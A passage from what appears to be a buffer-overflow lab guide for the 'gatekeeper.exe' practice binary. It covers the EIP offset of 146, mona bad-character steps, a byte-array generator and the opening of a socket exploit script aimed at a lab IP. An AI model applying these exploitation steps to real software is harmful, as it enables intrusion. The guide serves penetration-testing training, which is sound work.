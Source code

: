 2. **Crashing with an exact offset of `146` bytes**

3. **Controlling EIP adding `BBBB` / `42424242` at offset `146` +1+2+3+4 bytes**

    - NOTE: Restart `Immunity Debugger` + `gatekeeper.exe` (`CTRL + F12`)

---

### 4. Finding Bad Characters

- Generate a `bytearray` using `mona`, and **exclude the null byte `\x00` by default.** 

- Note the location of the `bytearray.bin` file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be `C:\mona\oscp\bytearray.bin`).

    - `!mona bytearray -b "\x00"`
    
    - ![image](https://user-images.githubusercontent.com/94720207/169704314-ca5db20a-8f20-4e71-9147-019d27b2712e.png)
    
- Now, generate a string of bad chars from \x01 to \xff**:

- Now, generate a string of bad chars from \x01 to \xff**:

```python
# Byte Array (badchars) creator

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

- Now, generate a **string of bad chars** that is **identical to the bytearray** (or just use the next I made:). 

- ![image](https://user-images.githubusercontent.com/94720207/169704736-97989534-ba56-40d8-9794-7771c98cb418.png)
 
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

- Create `overflow_gatekeeper_find_badchars.py` script and set the `payload` variable **to the string of bad chars the script generates.**

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
```